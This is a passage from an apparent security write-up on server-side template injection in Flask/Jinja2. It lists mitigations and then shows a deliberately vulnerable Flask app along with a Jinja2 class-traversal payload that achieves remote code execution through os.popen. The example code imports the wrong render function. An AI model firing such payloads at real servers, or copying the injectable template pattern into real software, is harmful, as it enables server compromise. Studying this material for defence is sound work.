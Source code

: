             *   **Principle of Least Privilege:**  Avoid granting excessive permissions to the template engine. Limit the functionalities available within the template context.
            *   **Input Validation and Sanitization:**  Validate and sanitize all user input *before* it reaches the template engine.  Use allowlists instead of denylists for input validation whenever possible.
            *   **Context-Aware Output Encoding:**  If user input must be displayed in templates, use context-aware output encoding (escaping) to prevent both XSS and potentially some forms of SSTI. Jinja2's autoescaping is a starting point, but may not be sufficient for all SSTI scenarios.
            *   **Content Security Policy (CSP):** Implement a strong Content Security Policy to mitigate the impact of successful SSTI exploitation, especially if it leads to XSS-like behavior.
            *   **Regular Security Audits and Penetration Testing:** Conduct regular security audits and penetration testing, specifically focusing on SSTI vulnerabilities, to identify and remediate potential weaknesses.
            *   **Developer Training:**  Educate developers about SSTI vulnerabilities, secure coding practices for template engines, and the importance of proper input handling.

#### 4.3. Practical Example in Flask/Jinja2

Let's expand on the previous example to demonstrate a more concrete SSTI exploit:

**Flask Application (vulnerable_app.py):**

```python
from flask import Flask, render_template, request

app = Flask(__name__)

@app.route('/')
def index():
    user_input = request.args.get('input')
    if user_input:
        template_string = '<h1>User Input: {}</h1>'.format(user_input) # Vulnerable line
        return render_template_string(template_string) # Using render_template_string directly
    else:
        return "Please provide input in the 'input' query parameter."

if __name__ == '__main__':
    app.run(debug=True)
```

**Explanation:**

*   This Flask application takes user input from the `input` query parameter.
*   It directly embeds this `user_input` into a template string using `format()`. **This is the vulnerability.**
*   It then uses `render_template_string()` to render this dynamically constructed template string.

**Exploitation:**

1.  **Basic Injection:** Access `/` with `?input={{ 7*7 }}`. The output will be "User Input: 49", demonstrating template evaluation.

2.  **Remote Code Execution (RCE) Payload:** Access `/` with the following payload in the `input` parameter:

    ```
    ?input={{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("id").read()') }}
    ```
